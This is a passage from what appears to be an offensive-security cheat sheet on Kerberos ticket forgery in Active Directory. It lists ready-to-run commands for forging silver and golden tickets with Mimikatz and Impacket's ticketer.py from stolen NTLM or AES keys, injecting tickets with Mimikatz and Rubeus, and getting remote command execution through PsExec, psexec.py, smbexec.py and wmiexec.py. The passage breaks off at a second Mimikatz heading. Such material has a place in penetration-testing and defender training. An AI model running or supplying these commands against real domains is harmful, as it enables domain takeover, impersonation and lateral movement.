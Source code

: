 With [Mimikatz](https://github.com/gentilkiwi/mimikatz):

```
# To generate the TGS with NTLM
mimikatz # kerberos::golden /domain:<domain_name>/sid:<domain_sid> /rc4:<ntlm_hash> /user:<user_name> /service:<service_name> /target:<service_machine_hostname>

# To generate the TGS with AES 128 key
mimikatz # kerberos::golden /domain:<domain_name>/sid:<domain_sid> /aes128:<krbtgt_aes128_key> /user:<user_name> /service:<service_name> /target:<service_machine_hostname>

# To generate the TGS with AES 256 key (more secure encryption, probably more stealth due is the used by default by Microsoft)
mimikatz # kerberos::golden /domain:<domain_name>/sid:<domain_sid> /aes256:<krbtgt_aes256_key> /user:<user_name> /service:<service_name> /target:<service_machine_hostname>

# Inject TGS with Mimikatz
mimikatz # kerberos::ptt <ticket_kirbi_file>
```

Inject ticket with [Rubeus](https://github.com/GhostPack/Rubeus):

```
.\Rubeus.exe ptt /ticket:<ticket_kirbi_file>
```

Execute a cmd in the remote machine with [PsExec](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec):

```
.\PsExec.exe -accepteula \\<remote_hostname> cmd
```

### Golden ticket

With [Impacket](https://github.com/SecureAuthCorp/impacket) examples:

```
# To generate the TGT with NTLM
python ticketer.py -nthash <krbtgt_ntlm_hash> -domain-sid <domain_sid> -domain <domain_name>  <user_name>

# To generate the TGT with AES key
python ticketer.py -aesKey <aes_key> -domain-sid <domain_sid> -domain <domain_name>  <user_name>

# Set the ticket for impacket use
export KRB5CCNAME=<TGS_ccache_file>

# Execute remote commands with any of the following by using the TGT
python psexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
python smbexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
python wmiexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
```

With [Mimikatz](https://github.com/gentilkiwi/mimikatz):
